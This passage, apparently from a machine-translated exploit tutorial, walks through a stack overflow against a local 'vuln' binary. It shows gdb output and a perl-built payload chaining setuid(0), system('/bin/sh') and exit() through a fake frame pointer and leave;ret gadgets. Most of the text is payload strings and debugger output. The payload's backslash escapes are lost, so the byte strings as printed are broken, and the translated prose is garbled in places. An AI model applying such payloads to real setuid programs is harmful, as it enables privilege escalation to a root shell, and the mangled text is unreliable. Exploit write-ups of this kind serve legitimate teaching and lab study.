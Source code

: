 0x0804846c <+49>: leave  
0x0804846d <+50>: ret  
End of assembler dump.  
(gdb) br *print +50  
Breakpoint 1 at 0x804846d  
(gdb) run "`perl -e 'print "x50xc8xe3xf7" . "xc5x35xebxf7" . "xc8xecxf5xf7" . "A"x124 . "xaaxaaxffxff" . "x27x85x04x08" . "x60x3dxebxf7" . "x6cx84x04x08"'`"  
Starting program: /home/arget/vuln "`perl -e 'print "x50xc8xe3xf7" . "xc5x35xebxf7" . "xc8xecxf5xf7" . "A"x124 . "xaaxaaxffxff" . "x27x85x04x08" . "x60x3dxebxf7" . "x6cx84x04x08"'`"  
[...]AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]``

Breakpoint 1, 0x0804846d in print ()  
(gdb) x $esp  
0xffffd2ac: 0x08048527 # &ret  
(gdb)  
0xffffd2b0: 0xf7eb3d60 # &setuid()  
(gdb)  
0xffffd2b4: 0x0804846c # &leave;ret  
(gdb)  
0xffffd2b8: 0xffffd300  
(gdb)  
0xffffd2bc: 0x080484d1  
(gdb)  
0xffffd2c0: 0xf7fb53dc  
(gdb)  
0xffffd2c4: 0xffffd2e0  
(gdb)  
0xffffd2c8: 0x00000000  
(gdb)  
(In the output of the delete program bytes unprintable, because he has already given me some a headache from deformating the text in the post, as some may indicate a vertical tab, page break or similar things marring design blog). We find a NULL 5 above positions, so that we will introduce 4 more ret’s.  
`perl -e 'print "x50xc8xe3xf7" . "xc5x35xebxf7" . "xc8xecxf5xf7" . "A"x124 . "xaaxaaxffxff" . "x27x85x04x08"x5 . "x60x3dxebxf7" . "x6cx84x04x08"'`  
The operation will occur as follows:  
– The `leave` print() collects in the EBP a false frame pointing four bytes under the beginning of our buffer (where we put our ROP `system("/bin/sh") + exit()`) .  
– The `ret` print() contains one address to another `ret` instruction, which in turn collect `ret` another direction, is simply a way to get where we arrive at two positions after 0x00000000 (have to be two positions for setuid () recognizes the 0x00000000 as an argument). It would also use a gadget pop,pop,pop,pop;ret and place stuffing, but I preferred this, which does not modify the registers.  
– The last `ret` collect &setuid, which recognizes as an argument the two positions 0x00000000 beyond because it believes that the function has been called a `call`.  
– setuid() ends and executes a `ret` where should be the `EIP(s)`, which collects in EIP address of a `leave;ret`, the `leave` the first move of EBP to ESP the buf-4 direction, to subsequently make a `pop ebp` to collect trash in the EBP and increase the ESP in 4 bytes, pointing at the beginning of buf. Finally, the `ret` instruction buf collect the start address & classic system ushering ROP.  
We will find the address buf and run it.

    [unset environment LINES y COLUMNS]
    Breakpoint 2, 0x08048456 in print ()
    (gdb) x $esp
    0xffffd210: 0xffffd220
